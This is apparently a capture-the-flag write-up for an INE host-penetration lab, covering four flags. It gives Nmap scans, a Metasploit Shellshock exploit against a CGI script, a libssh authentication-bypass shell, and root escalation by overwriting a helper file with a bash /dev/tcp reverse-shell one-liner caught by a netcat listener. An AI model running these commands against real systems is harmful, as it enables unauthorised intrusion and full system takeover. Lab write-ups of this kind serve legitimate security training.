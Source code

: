 ## Host & Network Penetration Testing: System-Host Based Attacks CTF 2
### Flag 1: Check the root ('/') directory for a file that might hold the key to the first flag on target1.ine.local

We begin with an Nmap scan across all ports, which reveals that only port 80 is open

```nmap -sS -O -p- -T4 target1.ine.local```

```nmap -sS -O -p80 -sV -T4 target1.ine.local```

A service scan reveals Apache 2.4.6 (Unix) on the target system.

We proceed with a Dirb scan to enumerate possible useful folders. It finds cgi-dbin folder and the home page of the site named browser.cgi.
This suggest we could attempt a Shellshocked vulnerability exploit.

```nmap target1.ine.local --script http-shellshock --script-args "http-shellshock.uri=/browser.cgi"```

Nmap reveals that the file browser.cgi is vulnerable to Shellshock.

We proceed with Metasploit:
```
search shellshock
use exploit/multi/http/apache_mod_cgi_bash_env_exec
setg RHOSTS target1.ine.local
setg TARGETURI /browser.cgi
setg LHOST 192.164.224.2 
run
```
**Note: If something is not working, try selecting another LPORT.**

We obtain a Meterpreter session and start exploring the target server, finding .flag.txt as our second flag.
Navigating to the root directory, we locate the first flag.

### Flag 2: In the server's root directory, there might be something hidden. Explore '/opt/apache/htdocs/' carefully to find the next flag on target1.ine.local.

This flag is found during the previous step.


## Flag 3: Investigate the user's home directory and consider using 'libssh_auth_bypass' to uncover the flag on target2.ine.local.

Analyzing target 2, we scan it with Nmap. The scan leads us to port 22 and its service, libssh 0.8.3.

```nmap target2.ine.local -p- -T4 -sS```

```nmap target2.ine.local -p22 -T4 -sS -sV```

Using:

```searchsploit libssh```

we discover that this particular version of libssh is vulnerable to unauthorized access.

We proceed with Metasploit:
```
search libssh
use auxiliary/scanner/ssh/libssh_auth_bypass - action: shell
setg RHOSTS target2.ine.local
set CMD /bin/bash -i
run
sessions -i 1
```

Navigating to the home folder of the user, we locate the third flag.


### Flag 4: The most restricted areas often hold the most valuable secrets. Look into the '/root' directory to find the hidden flag on target2.ine.local.

Obtaining a root shell is not an easy task. However, there is an executable file in the user’s home folder named welcome, which the user is able to execute. This file runs another file, greetings, that is not accessible.

We overwrite greetings with a file containing the following string:
 
```bash -i >& /dev/tcp/192.164.224.2/41234 0>&1```

After using Netcat to open port on the attack machine to listen for communications:

```nc -nlvp 41234```

We execute welcome, that executes greetings, obtaining a root shell on the target machine.

Navigating to the root folder we find the last flag.
